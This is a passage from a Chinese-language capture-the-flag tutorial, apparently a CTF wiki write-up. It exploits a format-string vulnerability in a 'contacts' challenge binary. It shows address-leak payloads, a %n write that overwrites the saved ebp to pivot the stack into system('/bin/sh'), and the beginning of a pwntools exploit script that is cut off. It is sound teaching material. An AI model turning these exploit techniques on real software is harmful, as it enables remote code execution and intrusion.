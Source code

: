 再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的 ebp 地址并不会因为我们再次调用而改变。

在部分环境下，system地址会出现\x00，导致printf的时候出现0截断导致无法泄露两个地址，因此可以将payload的修改如下：

```text
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload修改为这样的话，还需要在heap上加入12的偏移。这样保证了0截断出现在泄露之后。

#### 修改ebp

由于我们需要执行 move 指令将 ebp 赋给 esp，并还需要执行 pop ebp 才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 pop ebp 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 11，所以我们可以构造如下的 payload 来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
```